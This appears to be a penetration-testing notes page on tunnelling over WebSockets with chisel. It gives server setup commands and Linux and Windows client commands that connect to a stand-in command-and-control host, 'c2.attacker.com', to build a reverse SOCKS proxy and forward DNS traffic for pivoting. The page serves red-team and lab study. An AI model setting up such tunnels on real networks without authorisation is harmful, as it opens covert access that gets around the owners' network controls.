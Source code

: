 ```yaml
---
title: WebSockets Tunnel
---
```


[[notes/tunneling/index]] over the [[notes/network/websocket]] protocol.

Start an unauthenticated [[notes/tools/chisel]] server on Linux.

~~~ bash
sudo chisel server --port 80 --socks5 --reverse
~~~

Alternatively start a server with authentication where the user `proxy` can bind only to unprivileged ports on localhost.

~~~ bash
cat << 'EOF' > ./users.json
{
  "proxy:passw0rd": [
    "^R:127\\.0\\.0\\.1:[0-9]{4,5}$"
  ]
}
EOF
sudo chisel server --port 80 --socks5 --reverse --authfile ./users.json
~~~

Connect with the client from Linux to establish a reverse [[notes/pivoting/socks-proxy]].

~~~ bash
./chisel client --fingerprint $fingerprint --auth proxy:'passw0rd' http://c2.attacker.com R:127.0.0.1:1080:socks
~~~

Connect with the client from Windows to forward local port 53/udp to port 5300 on the server.

~~~ bat
.\chisel.exe client --fingerprint %fingerprint% http://c2.attacker.com R:127.0.0.1:1080:socks 53:127.0.0.1:5300/udp
~~~

> **Note:**
> In at least one instance a HTTP proxy blocked WebSocket connections.
> This can be verified on [piesocket.com](https://www.piesocket.com/websocket-tester).

Untested tools:

- [github.com/meteorite/chisel](https://github.com/Meteorite/chisel/tree/feature-socks-udp-associate), fork with SOCKS5 UDP support
- [wstunnel](https://github.com/erebe/wstunnel), chisel alternative written in Haskell
